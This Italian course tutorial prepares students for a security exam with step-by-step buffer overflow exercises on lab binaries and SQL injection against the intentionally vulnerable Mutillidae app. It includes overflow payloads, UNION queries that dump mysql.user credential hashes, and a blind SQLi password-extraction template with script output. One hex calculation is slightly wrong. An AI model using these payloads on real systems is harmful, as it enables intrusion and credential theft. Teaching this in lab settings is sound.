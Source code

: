 # Simulazione di prova d’esame – **Guida passo‑passo**

Questa guida raccoglie gli appunti di laboratorio (Buffer Overflow + SQL Injection) in forma **tutoriale**: ogni esercizio indica *perché* si fa un’operazione, *cosa* aspettarsi in output e *come* ragionare per arrivare alla soluzione.

> **Target studenti** – chi sta preparando l’esame di *Sicurezza Informatica* e vuole un filo logico da seguire.

---

## 0 · Prerequisiti

| Strumento         | Versione minima | Nota                          |
| ----------------- | --------------- | ----------------------------- |
| **Debian VM**     | 11 (i686)       | fornita dal corso             |
| **gcc**           | 9.x             | compilazione 32 bit, *no‑pie* |
| **gdb**           | qualunque       | debug di binari x86           |
| **Python 3**      | 3.8             | per gli script SQLi Blind     |
| **requests**      | 2.x             | `pip install requests`        |
| **Mutillidae II** | 2.6.46          | già nella VM                  |

### Flag di compilazione per i binari overflow

```bash
gcc -w -m32 -fno-stack-protector -fno-pic -no-pie -g -o <out> <src>.c
```

* Stack canary disabilitato, **ASLR** da disabilitare in `/proc/sys/kernel/randomize_va_space` se serve.\*

---

## 1 · Buffer Overflow (cartella `BufferOverflow`)

> Scaricare i binari extra:
>
> ```bash
> wget https://secloud.ing.unimore.it/shared/si/buff_over_extra.tgz
> tar xzf buff_over_extra.tgz
> ```

### 1.1 – Calcolare la lunghezza minima che causa crash (`es1`)

| 📝 | Concetto chiave                                                                            |
| -- | ------------------------------------------------------------------------------------------ |
| 1  | La dimensione del buffer è data dal valore sottratto da `esp` (`sub $0xaac4,%esp`).        |
| 2  | A runtime vogliamo la *distanza* fra **buffer start (EAX)** e **EBP** salvato sullo stack. |

```gdb
(gdb) disass main               # notiamo sub $0xaac4,%esp
(gdb) b *main+30                # subito dopo la call a gets
(gdb) run
(gdb) i r eax ebp
```

Calcolo:

```text
0xFFFFD5D8 (EBP)
-0xFFFF2B17 (EAX)  = 0xAAA1   => 43 713 byte
```

Il programma *segfaulta* a `43 709` byte (4 byte prima) perché sovrascriviamo il vecchio `ECX` salvato.

**Comando di test**

```bash
python -c 'print("A"*43709)' | ./es1    # segmentation fault
```

---

### 1.2 – Sovrascrivere `topolino` (`es2`)

**Obiettivo**: portare la variabile `topolino` (a `ebp‑0x0c`) al valore `0x7A525851` (zinco‑R‑X‑Q).

1. **Trova offset**

   ```gdb
   (gdb) disass main   # segue linea con cmpl $0x7a525851,-0xc(%ebp)
   (gdb) b *main+37    # subito dopo gets
   (gdb) i r eax ebp   # eax = &buffer, ebp = fp
   ```

   Offset = `ebp - 0x0c - eax` = **45 B**.
2. **Costruisci payload**

   ```bash
   python - <<'PY'
   print("A"*45 + "\x51\x58\x52\x7a", end='')
   PY | ./es2
   # → Ottimo! Hai modificato correttamente la variabile
   ```

---

### 1.3 – Sovrascrivere `pluto` (`es3`)

* Valore richiesto: `0x00745962`.
* Offset calcolato da GDB: **376 B**.

```bash
python -c 'print("A"*376 + "\x62\x59\x74\x00")' | ./es3
```

---

### 1.4 – Deviare il flusso su `nascosta()` (`es4`)

* Indirizzo `nascosta` = `0x0804846b`.
* Variabile puntatore è a `ebp‑0x0c`; calcoliamo offset ≈ **82 264 B**.

```bash
python -c 'print("A"*82264 + "\x6b\x84\x04\x08")' | ./es4
```

Output: *Hai modificato correttamente il flusso di esecuzione*.

### 1.5 – Funzione `impossibile`

Analogo procedimento: trovare l’indirizzo della funzione, il nuovo offset e sovrascrivere.

---

## 2 · SQL Injection (cartella `SQLInjection`)

* **URL base**: `http://127.0.0.1/mutillidae/index.php?page=login.php`
* **Tecnicismi**: Mutillidae usa MariaDB; `#` è commento in MySQL; la pagina ha 7 colonne nella `SELECT`.

### 2.1 – Versione DB e utente in esecuzione

```sql
' UNION SELECT 1,VERSION(),CURRENT_USER(),4,5,6,7 #
```

Risultato → `10.1.23-MariaDB` / `root@localhost`.

### 2.2 – Cercare un video YouTube

1. Trova tabella con `information_schema.tables` (`youTubeVideos`).
2. Trova colonne (`recordIndetifier`, `identificationToken`, `title`).
3. Query finale (nessun match per token `1lblqC2Favk`).

### 2.3 – Estrarre credenziali utente `root`

```sql
' UNION SELECT Host,User,Password,'x','x','x','x' FROM mysql.user #
```

Password hash SHA‑1: `*2470C0C0…`  —  `password_expired = 'N'`.

### 2.4 – Colonne della tabella `hitlog`

```sql
' UNION SELECT 1,table_name,column_name,4,5,6,7 FROM information_schema.columns WHERE table_name='hitlog' #
```

Restituisce: `cid`, `hostname`, `ip`, `browser`, `referer`, `date`.

---

### 2.5 – Blind SQLi sull’utente `simba`

#### Idea generale

* **Login riuscito** → pagina più corta (banner *Logged In User*).
* Confrontiamo `len(r.text)` con la *baseline* di login fallito.

#### Query template

```sql
simba' AND
(
  SUBSTRING(
      (
         SELECT password
           FROM accounts
          WHERE username='simba'
            AND LENGTH(password)=8
      ),
      1,      -- posizione corrente
      1       -- un solo carattere
  ) = 'X'     -- prova ogni char dell'alfabeto
) #
```

Quando il carattere è corretto, la clausola è vera e la risposta cambia.

#### Script di automazione (`blind_bruteforce.py`)

*Calcola la baseline, trova la lunghezza, poi ricostruisce la password un byte alla volta.*

```bash
python blind_bruteforce.py \
  -U http://127.0.0.1/mutillidae/index.php?page=login.php \
  -u simba -v
```

Output:

```
Password length 8 matched!
Actually matched prefix: p
...
Password for 'simba': password
```

Password verificata con l’interfaccia Mutillidae.

---

## 3 · Domande frequenti

| Domanda                                           | Risposta breve                                                                           |                                                  |
| ------------------------------------------------- | ---------------------------------------------------------------------------------------- | ------------------------------------------------ |
| **Perché usare `#` come commento?**               | È il simbolo di commento a riga singola in MySQL/MariaDB.                                |                                                  |
| **Perché `LIMIT 1` nelle sub‑query?**             | Evita errori se esistono più omonimi (`username='simba'`).                               |                                                  |
| **Perché invertire i byte nei payload overflow?** | La CPU x86 è little‑endian: il valore deve essere scritto in ordine inverso (LSB → MSB). |                                                  |

---

## Riferimenti utili

* OWASP Mutillidae II – [https://github.com/webpwnized/mutillidae](https://github.com/webpwnized/mutillidae)
* Aleph One – *Smashing the Stack for Fun and Profit*
* MariaDB Documentation – *String Functions / SUBSTRING()*
* GDB Cheat‑Sheet
